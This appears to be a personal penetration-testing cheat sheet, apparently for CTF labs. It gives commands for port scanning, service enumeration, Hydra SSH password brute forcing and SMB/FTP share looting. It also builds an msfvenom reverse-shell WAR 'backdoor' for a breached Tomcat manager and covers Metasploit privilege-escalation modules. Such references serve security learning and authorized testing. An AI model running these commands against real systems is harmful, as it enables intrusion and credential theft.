 # Starting Penetration

```
msfconsole
```

To Open metasploit console

## Port Scan

```
nmap IP -sV -sC -p- --min-rate 20000
```

alternate

```
nmap IP -T4 -A -v
```

-p- to scan all ports

20k rate probably way too high. Reduce to reduce risk of alerting firewall.

-sS for TCP SYN Scan

-sV to show services related to each port


### Get Version of Service

NetCat

```
nc IP PORT
```

Listen on port
```
nc IP PORT -lvnp
```

Listen throuh metsploit
```
use exploit/multi/handler
```

### Find Exploits with SearchSploit

```
searchsploit servicename version
```

### Add new modules to metasploit from exploit-db

Get path from searchsploit

```
curl http://www.exploit-db.com/download/ID  /root/.msf4/modules/exploits/custom/CUSTOMFILENAME
```



### Metadata

```
exiftool file
```

### Web Server:


#### Directory Discovery

Word lists are at `/usr/share/wordlists` (In KALI)

```
gobuster dir -u URL:port -t threads -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

#### Replicate website on local storage

```
wget http://ip/ -r
```

#### Wordpress vulnerability checker

```
wpscan --url URL
```

--plugin-detection aggressive    -   Takes a long time, but digs up good dirt


## SSH

### SSH with RSA file

```
ssh -i /path/to/file user@IP
```


#### Brute Forcing Passwords

```
hydra -l USER -P /path/to/wordlist ssh://IP
```

https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials


## Apache

### After /manager breach

#### Make Offensive WAR file

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=4449 -f war > backdoor.war
```


## Attempt to Elevate permissions after entry

### Open SSH through Metasploit

```
use auxiliary/scanner/ssh/ssh_login
```

### Upgrade shell to meterpreter

```
use post/multi/manage/shell_to_meterpreter
```

##### Gather random exploits possibilities.

```
use post/multi/recon/local_exploit_suggester
```
Gives readout of possible vulnerabilities of connected host


### NFS (RPCBIND?)

Enumerate NFS shares.

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.223.98
```



### Linux Specific

whoami

#### Search specific word

```grep -n "WORD" /path/to/file(s)```
-n lists line number
-r - recursively check all files matching path
-B # - Prints this many lines before
-A # - Prints this many lines after

#### LinPEAS

https://github.com/carlospolop/PEASS-ng/releases

Only need linpeas.sh

```
scp /home/mike/linpeas.sh USER@IP:/home/USER
```
```
./linpeas.sh
```

#### Search for SUID Bit files

SUID Bit - User executes the file with permissions of the file owner

```
find / -perm -u=s -type f 2>/dev/null
```


### FTP

Replicate entire FTP
```
wget -m ftp://anonymous:anonymous@IP
```


### Samba share

##### Quick Enumeration

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse IP
```

Change port to match nmap results. (Usually 139 or 445)

##### Deep Enumeration

```
enum4linux -a IP | tee enum4linux.log
```


#### Inspect Samba Share

```
smbclient //ip/sambashare
```


#### Recursively download the SMB share

```
smbget -R smb://ip/sambashare
```

